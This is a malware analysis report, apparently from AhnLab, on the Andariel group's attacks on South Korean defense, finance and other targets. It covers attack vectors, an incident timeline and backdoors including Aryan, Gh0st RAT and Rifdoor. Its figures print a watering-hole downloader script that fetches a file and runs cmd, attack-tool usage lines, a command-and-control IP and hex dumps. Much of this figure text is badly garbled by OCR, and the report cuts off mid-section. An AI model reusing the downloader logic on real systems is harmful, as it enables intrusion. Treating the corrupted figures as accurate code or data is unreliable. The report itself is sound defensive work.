







Analysis Report (الران

# Targeted attacks by Andariel Threat Group, a subgroup of the Lazarus


220, Pangyoyeok-ro, Bundang-gu, Seongnam-si, Gyeonggi-do, South Korea Tel: +82-31-722-8000 | Fax: +82-31-722-8901 | www.ahnlab.com | © AhnLab, Inc. All rights reserved.

## Table of Contents

| Overview |
| --- |
| Attack Vectors (Infection Routes). |
| 1. Spear Phishing |
| 2. Watering Hole (Active-X Vulnerability) |
| 3. Central Manaqement Solution . |
| 4. Supply Chain Attack . |
| Attack Cases . |
| Malware and Attack Tools . |
| 1. Malware – Backdoor …………………………………………………………………………………………………………………………………………………………………………………………………………………………………………………………………………………………………… 11 |
| 1.1) Aryan . |
| 1.2) Gh0st RAT . |
| 1.3) Rifdoor………………………………………………………………………………………………………………………………………………………………………………………………………………………………………………………………………………………………………………… 12 |
| 1.4) Phandoor |
| 1.5) Andaratm |
| 2. Attack Tools. |
| Similarities in Multiple Attack Cases |
| AhnLab's Response. |
| Conclusion . |
| Reference |

## Overview

The Andariel group is a subgroup of the Lazarus group that has been active since 2015. Andariel has a connection to the cyber-attack named Operation Black Mine that occurred in 2014 and 2015. However, Operation Black Mine is also associated with the attacks on the South Korean Military Agency in 2008 and the attacks against South Korean banks and broadcastersin 2013 (a.k.a DarkSeoul).

The major targets of the Andariel Group include not only military agencies, defense industries, political organizations, security companies, ICT companies, and energy research institutes, but also financial targets, such as ATMs, banks, travel agencies, cryptocurrency exchanges, and online qambling users.

Their main methods of attacks are spear phishing using macros, watering hole attacks exploiting Active-X vulnerabilities, vulnerability exploits on security and IT asset management systems, and supply chain attacks.

The group makes use of well-known backdoors, such as Aryan and Gh0st RAT, but also uses self-developed backdoors, such as Andarat, Andaratm, Rifdoor, and Phandoor. Furthermore, this group appears to know Korean language and its IT environment.

This report examines the attacks by Andariel Threat Group, including key methods, and changes in their purpose and targets.

# Attack Vectors (Infection Routes)

The Andariel group uses a variety of attack techniques, and, in particular, they take advantage of vulnerabilities of local software in South Korea.



[Figure 1] Major attack vectors of the Andariel group

## 1. Spear Phishing

The Andariel group uses the spear phishing method by understanding their target and sending emails with an attachment that appears to be from a relevant, seemingly trustworthy source. The attachments contain macro and trick the targeted recipient into activating the macro. However, this method of inducing macro activation has become more devious after 2015.

[Figure 2] below shows the contents of attachments used in the 2015 attacks with the original method of inducing macro activation. The user can enable macro, but there is not a significant need to do so because the content is visible.



[Figure 2] Contents of documents used in the 2015 attack

However, malicious attachments found since 2017 show a new method. The contents of documents are blurred, as shown in [Figure 3], as if there is a problem with the display, increasing the likelihood of the recipients enabling the macros.

| 4499 100 | IT NEWS CORRESS & DESIGNALS - PER OF | Class of Contract of Concession | CALL COLLECTION CONNECT CONTRA |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- | --- |
| MART REE-HERTICH FOR FOR FOR AN | NAMERANANA AND ENGLES OF LEE LE FOR |  |  |  |  |  |  |
| CHILANDERS TO | (图书)(( 图文教育馆(Jan |  |  |  |  |  |  |
| 64 & 14-50 | 14 | 144 | 1-40-47 | that county of the 201 . A | 1 80 3 11 8 8 1 4 | 13.44 | 10.00 100 |
| 1011/478-104 | CHANGE CARDED OF | relation of other considera |  |  |  |  |  |
| MILLERS LEASE & LEASE & | 1989 | (1-07-21-18 17) Statist (1) 1 | 18.40 | 100 110 000 | 0-0-0-0-0-00 | 1000 mg connect bentifications of the | I |

[Figure 3] Contents of documents used in the 2017 attack

## 2. Watering Hole (Active-X Vulnerability)

The Andariel group also uses the watering hole technique, which compromise and inject exploit codes into a website. The targeted systems are infected with malware upon accessing the compromised website using a vulnerable web browser. These attacks also limit infection to specific IP address ranges, making it much more difficult to identify the attack targets.

For the watering hole attack, the group usually embeds an Active-X vulnerability exploit codes in the target website. When the target accesses the website via an Internet Explorer browser with a specific Active-X installed the attack proceeds. After successful exploitation of the vulnerability, a JavaScript or VBScript file is created on the user system and this file downloads the malware from a specified address.

| function getXMLHI tpRequest() |
| --- |
| tryingturn new Act (vaXObject( Moxel 2 XMLHTTP. 6.0 ) ) |
| catcheal (itry(return new Active)(b) == ( "Msxall INLHTF 5.0") ) |
| catch(@2) tryireturn new ActiveXObject   Msxm)2,XMLHTP,4,0");} |
| catch(eS) itryireturn new Active XOblect   Msxm12 IMLHITP.3.0 ); } |
| catch(e4)itry(return new ActiveXObject) Mixw12.XMLHIP ) .; |
| catch(e5){tryIreturn new ActiveXObject( Microsoft. XMLHIIP ); J |
| catch(ab) fratuen null 193112 |
| Var sepat XML Hitp Requess () : |
| var Smage Act IveXOblect("ADGE Strega"); |
| S. Ispe= = = = = |
| x. Opent Get . " /rss sit . 0): |
| x. Send() = |
| S. Open();S. Frite(s. responsebody): |
| Var In = L 000 Indows Peters (8) = 11 Jer |
| var for- L Mewindows wtempor conhost the i |
| S. Save ToFile(1n2.2): |
| S.Claspl ); |
| var d m new Entel ). |
| var Hours = d set hours = |
| var Minutes = d. pethingtes == |
| var str = [c at. " + Hours = " = Hinutes = " = In : |
| var D=new ActiveXObject("Shell Application"); |
| 0, Sell Execute(' c Windows Proysteas22000 Bd.ess", [/c '(acho M25 type " + tn2 = ') >' + tn1 = "", ' |
| Q. ShellExecute("c":"WwindowsPaystems. wir,"","open","0): |
| Q.SwillExecute( c.WWwindowsWsystes33Wcwd.axe", '/c dai: C Ww indowsPiceoffludate, is . |

[Figure 4] Script file created in the infecte

Here, the "MZ" ASCII string, which represents a Windows executable file, does not exist within the file. The malware adds this text string starting with MZ from the local system to create an executable file. This method seems to be used to avoid detection by behavior-based security solutions when the executable file is downloaded.

| - 888000000 | BBC 888 BB | 6959 | 00 B8.00 00 | B& . | BB BB | FF .FF BB | 4715 | 110 | F | a | 00000010: | 80 00 | 40.00 | 00 00.00 00 | 00 00.00 | 08 | 00 | 88 | 08 | 00000020: | 00 00 00.00 00 00 00.00 00 00 00.00 |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| 1914 | 00 80 | DA 00.00 00 00 00 00 00.00 00 00 00.00 | 00000000 | BB | BH | BE | 10-110L-Hhis pr |  |  |  |  |  |  |  |  |  |  |  |  |  |  |  |  |  |  |
| 89 CO 21.88 | 81 4C CD 21 | 54 68 69.73 | 20 70 | BDBBBBBBB | BA | -12 | 67 72 | 61.60 20 63 61.6E 6E 6F 74.20 | - BSSBBBBB | 62 | 65 20 | 61- | ogram cannot be | 53 20 60.6F 64 65 2E |  |  |  |  |  |  |  |  |  |  |  |
| 099888808 | 72 | 75 6E | 6E 20 44 4F | 20.69 | run in DUS node | 08000070: | BB 08 08 | 24.00 00 00 00.00 | 00 FA.A0 56 84 | 88 | BE | BHORAMAr HIST |  |  |  |  |  |  |  |  |  |  |  |  |  |
| 000000000 | 121 | 38 57 | BE CI 38 | 57 | BE CI | 88 | S7 D1. B7 93 57 | 97 | 57 90.01 | -84-188-1887 | C1 | 38 57 D1.B7 A6 | 92 57 | 2F | 38 57 DI . B7 | 068008800 | C3 | : 0H8800880 | 38 57 B7 B9 A8 | 38 | 57 BE C1 39 57 |  |  |  |  |
| E | 57 83 01 | Wirrule Blering | 38 57 D1.87 97 57 98.01 | 57 01 87 AS 57 BF | - BBBBBBB B | 38 | 1991 |  |  |  |  |  |  |  |  |  |  |  |  |  |  |  |  |  |  |
| BHRich BM | COBBBBER | C1 | 38 57 52.69 63 | BE . C1 | 38 | 57 00.00 00 | BBF | BB | 68 | 00000000 | 00 | 00 00 00 00 00 00 00.00 | 00 00 08,00 00 00 | 88 | PE |  |  |  |  |  |  |  |  |  |  |
| 090000000 | 00 00 50.45 00 00 40.01 04 | 00 7F.03 | 58 | 59 | BB | DB | LE� OHIV | 08 | 00 00 00.00 00 00 00 00 00 00 00 00 | 80 | 000008F0 | BBE | a CHOE |  |  |  |  |  |  |  |  |  |  |  |  |
| . | 99.63 00 | MZE V | DOY 688088 | 40 58 98 | 00.00 00 00 00 FF | 801 88 | BB | FF | 00400818: | 00 00 88 | 88 | 08 88 | 80 08 00 00 00 00 00.00 | 80 88 | 09400020 : | 00 00 00 | 00.00 00 00.00 00 00 00.00 | 80 | 99 | 1461 |  |  |  |  |  |
| 00400030: | 00.00 00 00.00 | 00 00 00 00 00 00 00 F8 | 88 | 1911 | 日日 | 09400040: | BA OE . 00 B4 | 09 CD 21 BB BI 4C.CD | 21 | 54 | 第十八 | 8E 1F | 68 | 00400050: | 69 73 | 67 72.61 60 20 63.61 |  |  |  |  |  |  |  |  |  |
| 28 | 70.72 6F | 6E | 61- | 68 | is program canno | 00%00000 | 74 20 | 62 | 65.20 | 72 | 20.44 AF | 53 | 75 | 6E.20 69 6E | 20 | I be run in DOS | 00400070 : | 60 6F 64 65.2E 8D 00 | 00 00 72 80 80 | 00 80 | 88 | 80 |  |  |  |
| ભિલ | BBT HBT PART PAP - | 00400080: | 56 94 BE CT 38 57 BE CT 38 | 08 BB | C1 | 38 | 57 | 57.86 | 11941-88770MC-8M | · 060088700 | B7 | d3 | 57.97 C1 38 57.01 B7 H6 57.90 | 38 57 | DOC | C1 |  |  |  |  |  |  |  |  |  |
| - 060000700 | DI | B7 92 | 38 57 | 57.25 | CI 38 21 BT BB HB 21 BB | C1 | 004000B0: | BE C1 | 39 57.03 | 38 | 57 | CI | 38 | 57.01 87 97 57.98 | C1 | 85 | 09YG/SOCO - | DI | 87 | 86 10 38 15 | 57.52 69.63 68.BE | C1 | 38 | 57 | mith -8MRich -B |
| 00 00 00.00 00 00 00 00 00 00 00 00 | - 0088899980 | GB | 00 88 | 88 | 08.00 00 00.50 45 00 | 194 | BOY 800E0 : | 08 00 | 88.40 |  |  |  |  |  |  |  |  |  |  |  |  |  |  |  |  |

[Figure 5] Downloaded file (above) and 5-byte recovered file (below)

### 3. Central Management Solution

Institutions and companies of a certain size often manage multiple systems in their organizations, such as PCs, by connecting them to a central management solution. This central management solution is mainly responsible for Network Access Control (NAC); anti-virus management, software and hardware assets control; and patch management, and it usually provides features such as IT asset management, report generation, software distribution, and remote control.

The attacker identifies and analyzes the central management solution used by the target institution or company to find and exploit the vulnerability. The attacks on the central management software can be categorized into two types: management server account attacks and vulnerability attacks on agents installed in the client.



[Fiqure 6] Concept diagram of the central management solution

Most central manaqement solutions consist of a management server and a client on which the agent is installed. The management server sends batch files to the connected systems or applies policies, and remotely controls the systems. The client processes files and commands sent from the management server.

In the event of an attack using the manaqement server, the attacker steals the targeted administrator account and distributes malware in the place of a normal file. This is the reason for the emphasis on management of administrator accounts. Another role of the management server is to receive the security updates for commercial software from external sources (software providers) and distributes them throughout the organization. However, if a file from the external update server tampers (e.g., by hacking); an update file containing malware will be distributed throughout the company or institution via the central management server.

The client agent of the central management solution is responsible for receiving and executing the file transmitted from the management server. Generally, the aqent has a feature to check whether the delivered command or file is verified. To bypass this process, the attacker pretends to be the management server and sends a command to the agent.

The Andariel group is responsible for carrying out many attacks on central management solutions that are widely used in South Korea. The following are the cases of the group transferring malicious files exploiting the vulnerabilities of the client agent in three types of central management solution.

The first case is malware that exploits vulnerabilities in central management solution A, which was first discovered in 2015. When the malware is executed, the executable file, v3pscan.exe, containing malware is transmitted to the agent of central management solution A through a specified IP address and executed.

| .0040CE00: 26 02 00 00.00 62 00 00.0E 07 0B 00.03 00 1A 00 80 0 1.8 0 + | 0040CE10: 0E 00 25 00.34 00 70 00.58 46 49 40.45 5F 52 45 4 % 4 ) 1FILE RE |  |
| --- | --- | --- |
| 0040CE20: 40 4F 54 45.5F 45 58 45.43 50 00 88.46 49 4C 45 HOTE EXECTING LLF | 00400230 . 56.50 41.56.48.30 43.39.50 27.49 46.44 47.27.23 . PATH-C: VIINDONS |  |
| 0040CE40: 00 00 46 49.40 45 5F 4E 41 45 3D 56 93 50 53 | VOLTILE NAME=V3PS | .0040CE50: 63 61 6E 2E.65 78 65 00.09 46 69 40.45 5F 43 4F can.exe VIFILE CO |
| 00400E60: 40 40 41 45,44 30 00 08,76 49 66 45,56 % 50 % RHAND-10FILE OPT | 0040CE70: 49 YF 4E 3D 31 00 00 F6.49 4C 45 2F 4F 52 73 5F TON-13BEITE ORG |  |
| 0040CE80; 50 KT 54 48.3D 43 39 50 27 49 YE 44 TE 2 53 00 PATH-C VAINDOWS | 0040CE90: 00 58 4A 4F.62 49 4E 46.4F 45 58 50.00 08 4A 4F 2LJ0BINFOEK1.8JU |  |
| 0070CEA0: 42 49 4E 4.45 58 3D 30.00 00 20 22.49 4F 52 49 BINDEX-0VDERLORI | .00400EEBO: 54.59 30 30.00 00 00 00 00 00 00 00 00 00 00 00 00 00 14-07 |  |
| COLOCECO: BO BO OR DO OR DO AR OR OR DO DO DO DO DO DO CO |  |  |

[Figure 7] Remote execution command used in the attack on the central management solution A

Attacks on the central management solution B were made between 2015 and 2017. Various types of malware were used, such as nc.exe, nt.exe, n5lic.exe, nc5rt2.exe, and Bin.exe, to exploit the management system. Also, the attacker used a method of generating a VBScript file, such as vs 1.vbs and winrm.vbs, to download malicious files.

Variants of this malware were discovered between 2015 and 2017, which used the server IP, target system IP, download address, remote executable path, and other items as arguments to exploit systems and generate script files that downloaded malware. The generated script downloads a file from the address entered as an argument and restores 5 bytes.

| c: work >nc Usage:main.exe ServerIP, TargetIP, DownloadUrl, RemoteFilePath, [vbScriptPath=c: |
| --- |
| Windows temp\winrm.ubsInvalid License. Iry Again |
| c:\work>nc5rt2 |
| Usage:main.exe LICENSE TargetIP, PORT, DownloadUrl, RemoteFilePath, LubScriptPat |
| h=c=\windows\temp\winrm.ubs |
| c:\work>bin |
| Usage:main.exe License TargetIP, DownloadUrl, RemoteFilePath, [vbScriptPath=c'\w |
| indows temp\us1.ubs |
| c=\work> |

[Figure 8] Attack tool used in the attack on the central management solution B

The malware that exploited the vulnerabilities in central manaqement solution C was first found in September 2016. This attack performs malicious transferring and executing of files.




## 4. Supply Chain Attack

The Andariel group is also known for their attacks on supply chain vulnerabilities. The primary attack method includes incorporating the malware in the software installer edition to infect the target via distribution from the official website and software updates. However, in some cases, the attack was not designed to infect all software users but only the specified target IP address. The group also used the supply chain attack to exploit vulnerabilities of software used in specific industries.

# Attack Cases

The initial targets of the Andariel group were military agencies and the defense industry in South Korea.

In 2015, there was an attack on exhibitors in the Seoul International Aerospace & Defense Exhibition (ADEX). ADEX is an international defense industry exhibition that has been hosted bi-annually since 1996. The attacker sent an email with an Excel or Word document containing macros, pretending to be the organizer of the event. The attached document was disguised as a legitimate content, and malware was downloaded when the recipient opened the file and clicked "Use Content" to activate the macro. The downloaded file was a Rifdoor variant.

From the document file found later, it seems that the attack group focused on its attacks mainly on the defense industry. [Table 1] below summarizes significant attacks made by the Andariel group.

| First | Attack Target |  | Malicious Act |
| --- | --- | --- | --- |
| Detection |  | Attack Method |  |
| July 2015 | Asset management |  | - Stole digital certificates of the company and used the signature in a malicious |
|  | solution | Unidentified |  |
|  |  |  | attempt |
| November | ADEX exhibitors | Macro-based spear | - Unknown |
| 2015 |  | phishing |  |
|  | Security company |  | - Stole digital certificates of the company and used the signature in a malicious attempt |
| February |  | Security program |  |
| 2016 |  | vulnerability | - Attacks assumed to have started since |
|  |  |  | November 2015 |
| February | Unidentified | Disguised as a DRM | - Unknown |
| 2016 |  | product |  |
| April 2016 | Defense industry, marine, and ICT | Vulnerability in central | - Unknown |
|  |  | management solution B |  |
|  | service providers |  |  |
| June 2016 | Mega-companies in the defense industry | Vulnerability in central | - Leakage of classified data, such as |
|  |  | management system A | aircraft drawings |
| August |  | Vulnerability in the vaccine | - Leakage of military data |
| 2016 | Military agencies | program management system |  |
| October | Online gamblers | Various utility installation | - Gambling game cheats to look at the |
| 2016 |  | files | cards |
| January | Online gamblers | Vulnerability in the internet | - Gambling game cheats to look at the |
| 2017 |  | cafe management system | cards - Leaking credit card information and |
| March | ATM manufacturer and | Vulnerability in the vaccine | replicating the card overseas (Users of |
| 2017 | ATMs | program management system | the replicated cards were arrested) - Attacks assumed to have started since |
|  |  |  | November 2016 |
| March | Unidentified | Disguised (or tempered) | - Additionally downloaded malware |
| 2017 |  | as a payment gateway |  |
| April 2017 | Energy research center | Unidentified | - At least 2 confirmed attacked attempts |
| May 2017 | Financial industry | Vulnerability of Report A | - Malware infection through the financial |
|  |  | Active-X | union website |
| June 2017 | Financial industry | Vulnerability in the central management solution B, | - Unknown |
|  |  | spear phishing (macro) |  |

| October |  | Report A vulnerability, | - Leakage of customers' personal information |
| --- | --- | --- | --- |
|  | Travel agency A | vulnerability in central |  |
| 2017 |  | management solution B | - Attacks assumed to have started since |
|  |  |  | September 2017 |
| December | Travel agency B | Unidentified | - Similar to the malware used in the |
| 2017 |  |  | attacks on travel agency A |
| December | ICT | Update on ERP product A | - Tampering the update file to make |
| 2017 |  |  | users to download malware additionally |
|  |  |  | - Tampering the installation file to make |
| December | Cryptocurrency | Remote support A | users download a malicious file when |
| 2017 | Exchange | installation file | downloading from a specific virtual |
|  |  |  | monev exchange |
| February | Cryptocurrency |  | - Impersonating the national assembly |
| 2018 | Exchange | Macro-based emails | member's office |
| April 2018 | Unidentified | Active-X vulnerability in the | - Unknown |
|  |  | ERP product B |  |

[Table 1] Major attacks of the Andariel group

In February 2016, a Korean security company was hacked, and an electronic certificate was leaked. Recently in August 2018, an additional malware was discovered to be distributed as a legitimate DRM program.

In April 2016, defense industry, marine service providers, and ICT companies were infected with Gh0st RAT, a malware that exploits vulnerabilities in central management solution B. In June 2016, the Korean police agency unveiled operation Gh0st RAT, a large-scale hacking incident on mega companies in the defense industry that exploited the vulnerabilities in centralized management solutions. Gh0st RAT is a malware that attempts to infect the target through the file distribution function using the vulnerabilities of central management solution A, and about 40,000 documents were leaked by the Gh0st RAT malware.

Ever since August 2016, the Andariel group has exploited the vulnerabilities in anti-virus management programs to attack military agencies and leak information. From the end of 2016, the purpose of the attack changed from information leakage to monetary gain. In October 2016, the attacker hacked the website of a software provider and replaced the installation file with a file containing malware to release malicious codes that served as cheats in online gambling games. In 2017, to maximize the chances of a successful attack, malware was distributed to multiple computers using an internet cafe management program.

In March 2017, a case was discovered where credit card information was leaked due to the hacking of an ATM in Korea. It seems attempts were made from November 2016, and the malware used in the attack was similar to those used in the leaking of a military agency's data in 2016.

From May to July 2017, there were concentrated attacks on the financial industry. The malware was distributed through the website of monetary unions, and the attacks attempted to exploit the vulnerability of their systems.

In October 2017, the largest travel agency in Korea was hacked, resulting in the leakage of personal information. Moreover, travel agency was hacked in December of the same year. In December 2017, the Andariel group modified the ERP solution update file of a company A and added malware to the file. At that time, malware was downloaded only to attack a specific target company, and not all companies using the ERP solution.

In December 2017, the Andariel group launched attacks on virtual currency exchange users. In January 2018, it distributed a remote support program containing malware. In February 2018, the group employed various types of attacks, including the email attack where it impersonated the office of a National Assembly member. Malware used in the email attack was a variant of the malware used in the ATM hacking in 2017, and another variant was used in the attacks on the financial industry in June.

# Malware and Attack Tools

## 1. Malware – Backdoor

The Andariel group uses in-house advanced malware, such as Andarat, Andaratm, Phandoor, and Rifdoor, as well as other well-known malware, such as Aryan and Gh0st RAT.

### 1.1) Aryan

Aryan was detected in 2015 and is characterized by the string "F**k Hack Hound."

| .0041E000: BB 01 00 00.09 07 00 00.46 75 63 6B.20 48 61 63 70 r. Fr. k Hac |
| --- |
| .0041E010: 6B 20 48 6F.75 6E 64 2E.00 00 00 00 00 00 00 00 k Hound. |
| .0041E020: 00 00 00 00.00 00 00 00.31 37 35 2E.31 31 37 2E 175.117. |
| .0041E030: 31 34 34 2E.36 37 00 00.6C 6F 67 2E.74 78 74 00 144.67 log.txt |
| .0041E040: 00 00 00 00 FF FF FF FF FF FF FF FF FF FF FF 31 2E 31 2E |
| .0041E050: 34 00 00 00.4C E0 41 00.6E 65 65 64.20 64 69 63 4 Lafl need dic |

[Figure 10] Strings in Aryan

### 1.2) Gh0st RAT

Gh0st RAT is a backdoor made in China, and its source codes are publicly available. The Andariel group used this malware for attacks from 2015 to 2016. It created and used a Korean version in some cases. Packagers, such as Themida packaged some variants.

| .00485FB0: 00 00 00 00.00 00 00 00.00 00 00.00 00 00 00 | .004BSFCS: 80 00 00 00.00 |  |  |  |
| --- | --- | --- | --- | --- |
| .00485FD0: | 004BSFED: 00 |  |  |  |
| 00485FF0: 00 00 00.00 00 | NB10 | 000BS000 | VE YS 3T 30,00 00 00 00 00 00 00 00 00 00 |  |
| 000B2010: 43 39 5C 47.68 6F 79 74.49 6F 6E 74.6F 6C 65 72 C:\GhostContoler | 00082020: 5C 43 6F 70.79 20 6F 66.20 67 68 30.73 74 33 2E NCopy of gh0st3. |  |  |  |
| 36 5F 73 72 63 50 67 68 30 13 74 50 52 65 65 65 | 6 src\gh0st\Rele | NABRSERIA - | 61 73 65 5C.67 68 6F 73.74 2E 70 64.62 00 | ase \ghost . pdb |

[Figure 11] Strings in Gh0st RAT

[Figure 12] shows the Chinese attack tools converted into Korean and used by the Andariel group.

| . Chilat RAT Beta 2.5 |  |  |  |  |  | ■■K |  |
| --- | --- | --- | --- | --- | --- | --- | --- |
| $168.9 监所确口 BO .. | 蓝盛上球 0000 100 100 | 广西山 | 南 上 | 厂家庭气电源行 |  |  |  |
| HENTER HEFFI | MySermit |  |  |  |  |  |  |
| 代度主机 母声在 | 理海道多 国外安整 | 20 18 | 50400 | 0000 | 广 开展型 NEETPORT | 广 图사물容型 |  |
| HAT # 东线播示 元有在第四国家庭文学演出 | 医者思想書 本文章 -- |  | 1200 | 第四 | 00 四兰白花花 | 广州市出版 二 |  |
|  | 三重八 |  |  |  | पुर प् 117.0 | 1 12:00 |  |
| Coverboor - A Battleter ( Balt | 母健康 |  |  | 司日 |  | JT. 9 | 11:04:41 |
| 132 160 158 135 | 是力量 |  |  |  | AA |  |  |
|  | 最后进出山 |  |  |  | IP (Selection We QCPY); DAL not, Flaise put this Me to the same divelop of the peogram to thisky the terrate beating |  |  |
|  | Complimat > Settinar 17000 |  |  |  |  | 10 WORLAND IN COMPANY | Property Box 11 Cancertan II |

[Figure 12] Chinese (back) and Korean (front) controllers

### 1.3) Rifdoor

Rifdoor was first discovered in November 2015, and it remained active until early 2016. A Rifdoor variant was used to attack SEOUL ADEX exhibitors in 2015 and was found in the hacking incidents of security companies in early 2016.

Rifdoor is characterized by the string included in the PDB information: E:\DatalMy Projects\Troy Source Code\tcp1st\rifle\Release\rifle.pdb.

| 0040E4E0: | 00 00 00.00 00 00 00.00 00 00 00 00 00 00 00 |
| --- | --- |
| 0940E4E8: | 00 |
| 0040E500: | 40 00 |
| 0040ES10: | 50 E6 60 00.03 00 00.52 53 44 53.F7 04 69 39 Pue # RSDS#19. |
| 0040ES20: | 36 3B GE 45.94 04 00 E9.12 79 AB 10.0C 00 00 6:nEd4/86v/8 |
| 0049E530: | E:\Data\My Proje 45 30 50 44.61 74 61 50.40 79 20 50.72 65 60 65 |
| 0040E540: | 63 74 73 50.54 72 6F 79.20 53 6F 75.72 63 65 20 cts\Iroy Source |
| 0049E550: | 43 6F 64 65:50 74 63 70:31 73 74 50 72 69 66 60 Code\tcp1s\/rif] |
| 0040E260: | 65 5C 52 65.60 65 61 73.65 5C 72 69.66 6C 65 2E @\Release\rifle. |
| 0040E570 : | 70 64 62 80 00 |
| ROZAL SRO . | DIE OO IT DO SO ES ZO DO DO OO OO OO OO OO OO |

[Figure 13] PDB Information of Rifdoor

When it enters the system, Rifdoor generates a file by adding garbage data to the 4 bytes of the last part of the file. Therefore, since the hash value changes each time the system is infected, the malware cannot be found in the system with a simple hash value.

| rfile.exe |  |  |
| --- | --- | --- |
| 0001 7380: 00 00 00 00 00 00 00 00 | 60 00 00 00 00 00 00 00 |  |
| 0001 7390: 00 00 00 00 00 00 00 00 | 00 00 00 00 00 00 00 00 |  |
